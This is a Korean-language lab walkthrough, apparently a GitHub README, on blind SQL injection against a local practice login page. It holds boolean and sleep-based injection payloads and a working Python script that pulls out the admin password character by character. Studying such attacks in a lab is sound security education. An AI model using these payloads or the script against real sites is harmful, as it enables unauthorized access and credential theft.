 ### Blind SQL Injection with Web v1.01
- 쿼리 결과로 나오는 참, 거짓 정보를 통해 SQL Injection 공격을 수행한다.
- 참, 거짓 정보의 결과가 어떤식으로든 서버가 응답하는 정보가 있어야 한다.
- 어떤 사용자가 존재하는가? 이 사용자는 존재하는가? 패스워드 문자열의 첫 번째 값은 무엇인가? 같은 질문을 던지는 것이다.
---

<p align ="center"><img src="./image/1.png"> </p>

- Web v1.01의 로그인 페이지 화면이며 해당 웹페이지의 관리자인 계정인 admin 계정으로 로그인을 시도한다.
- 로그인을 실패 했다는 정보밖에 알 수 없다. (아래 SQL은 값은 정확하게 입력 되었는지 확인 하기 위해 임의로 추가 함)

---

<p align ="center"><img src="./image/2.png"> </p>

- `'`를 입력하여도 SQL 문법 오류를 발생시키는 오류가 발생하지 않는 것을 보면 에러가 발생하지 않도록 구현 된 것을 알 수 있다.
---

<p align ="center"><img src="./image/3.png"> </p>

- 'admin'#'을 작성하여 인젝션을 시도했다. No Hack! 텍스트가 보이며, SQL 인젝션에 대한 경고 문구를 출력한다.
- 여기서 알아야 할 정보는 admin'# 구문은 참이므로 SQL 쿼리문이 정상 작동하고 그에 대한 결과값을 서버가 응답해주는 것이다.
- 하지만 이 정보만으로는 admin 계정을 인증시키지는 못한다. 어떤 방법이 있을까?
- **여기서는 No Hack! 이라는 정직한 텍스트로 SQL 쿼리문이 정상 작동한다는 정보를 주고 있지만, 다른 곳은 쉽지 않을 것이므로 이러한 정보들을 놓치지 않도록 많은 경험을 쌓아야할 것으로 보인다.**
---

### SQL SLEEP 함수

- 어떤 웹사이트는 위 사이트처럼 SQL 쿼리에 대한 결과값을 제공하지 않을 수도 있다. 아래와 같은 경우다.

<p align ="center"><img src="./image/4.png"> </p>

- SQL 쿼리가 결과 값에 대한 어떠한 정보도 제공하지 않는다.
- 이러한 상황에서는 SQL의 SLEEP 함수를 사용할 수 있다.
- SLEEP 함수는 쿼리를 지연시키는 함수다.

<p align ="center"><img src="./image/5.png"> </p>

- 쿼리문을 살펴보면 admin' and sleep(5) # 으로 # 앞에 문자는 참이 되며, # 이하의 구문은 모두 주석처리가 되고 결과적으로 참인 결과 값을 가지면서 sleep(5) 함수가 실행된다.
- 웹 브라우저의 개발자 도구로 결과 값을 확인해보면 sleep(5) 함수가 실행되면서 쿼리문의 결과가 5초 늦게 응답 될 것이고 자동적으로 HTTP 응답시간 또한 5초 정도 늦어질 것이기에 개발자 도구의 결과값이 5초로 나와있는 것을 확인 할 수 있다.

<p align ="center"><img src="./image/6.png"> </p>

- 임의로 adx1' and sleep(5) # 을 입력하면 반대로 adx1이라는 계정은 없으므로 거짓이 되면서 sleep(5) 함수는 실행되지 않게 되고 응답시간이 빠르다는 것을 알 수 있다.
- 이러한 정보들을 이용하여 사용자의 계정이 존재하는가? 등을 파악할 수 있다.

---

### SQL LENGTH 함수

- 문자열 길이를 출력하는 함수로 위와 같은 정보들을 확보했다면, LENGTH 함수를 이용하여 해당하는 값의 길이 또한 알 수 있다. 패스워드의 길이를 알아보는 것이 가장 적합한 것으로 보인다. (해당 데이터베이스의 패스워드 컬럼을 알고있다는 가정)

<p align ="center"><img src="./image/7.png"> </p>

- SQL admin' and length(user_password) = 1 # 입력하면 역시나 거짓 결과로 나온다. 하지만 SQL 구문은 정상 작동하고 있는 것을 알고 있기 때문에 No Hack! 이라는 텍스트가 나온다면 admin 계정의 패스워드 길이의 결과를 알 수 있다.

<p align ="center"><img src="./image/8.png"> </p>

- 수를 하나 씩 올리다 보면 결국 값이 나온다. SQL admin' and length(user_password) = 1 # 이 SQL에서 NO Hack 값이 나왔으므로 패스워드 길이는 4라는 것을 추측할 수 있으며, 이 정보를 이용해 다른 함수를 통해서 패스워드 까지 추출할 수 있을 것이다.

---

### SQL SUBSTRING 함수

- 문자 데이터 일부를 추출한다.
```
SUBSTRING(str, pos, len)
SUBSTR(str, pos, len)
SUBSTRING('ABCD',1,2) == AB
SUBSTR('ABCD',1,2) == AB
SUBSTR('ABCDE',3,1) == C
SUBSTR('ABCDE',3,2) == CD
```
---
### SQL ASCII 함수
- 문자를 ASCII 코드로 변환한다.

---
- 패스워드 길이를 알아냈다면, SUBSTRING 함수와 ASCII 함수를 사용하여 패스워드를 추출할 수 있다.

```
SELECT ASCII(substring("ABC",1,1)) = 65
```
<img src="./image/9.png">

- 함수 특성을 이용하여 문자 하나씩 추출하여 추출된 해당 문자의 아스키코드 값과 임의로 입력한 아스키코드 값을 비교해서 참이 되는 과정을 반복한다면, 그 결과값이 패스워드가 될 확률이 높다.

<p align ="center"><img src="./image/10.png"> </p>

- admin' and ascii(substring(user_password,1,1)) = 55#

<p align ="center"><img src="./image/11.png"> </p>

- admin' and ascii(substring(user_password,1,1)) = 65#
- 추출한 첫번 째 문자를 아스키 코드 55 ~ 65 까지 임의로 대입 후 결과 값이다. 65까지 입력 했을 때 No Hack! 텍스트가 출력된 것을 보니 admin의 패스워드는 첫번 째 문자는 'A'라는 것을 알 수 있다.

---

### Python tools

- 이러한 방법으로 하나하나 임의로 데이터를 대입하여 패스워드를 추출할 수 있지만 패스워드가 조금 더 길어지기라도 한다면 그것도 노동일 것이다.
- 파이썬을 이용하여 자동화 툴을 구현했다. 해당 사이트에 맞춰 제작한 것이기 때문에 해당하는 계정만 입력 하면 자동으로 패스워드 길이와 패스워드 값을 출력한다.

```py
import requests
import os
url = "http://localhost:8080/logincheck.php"

response = requests.get(url)

if response.status_code == 200:
    print(url + " 연결 성공")



username = input("UserID : ")

i=1
password_len = 0
while True:
    url_len = url + "?user_id="+ username + "' and length(user_password)=" + str(i) + "%23"
    print(url_len)
    req = requests.get(url_len)
    if -1 != req.text.find("No Hack!"):
        print("Success!")
        password_len = i
        break
    else :
        print("Fail!")
        i+=1

print("=" * 100)

password = ''
for i in range(1, password_len+1):
    for j in range(33, 127):
        url_password = url + "?user_id=" + username + "' and ascii(substring(user_password," + str(i) + ", 1))=" + str(j) + "%23"
        print(url_password)
        req = requests.get(url_password)
        if -1 != req.text.find("No Hack!"):
            print("Success!")
            print(chr(j))
            password += chr(j)
        else:
            print("Fail!")

print("Password Length →",password_len)
print("Password → " + password)
os.system('pause')
```

<p align ="center"><img src="./image/12.png"> </p>

- 실행 전 해당 웹사이트 계정 입력

<p align ="center"><img src="./image/13.png"> </p>

- 패스워드 추출 결과

---

- 패스워드 A2B1 입력 결과

<p align ="center"><img src="./image/14.png"> </p>








    



    







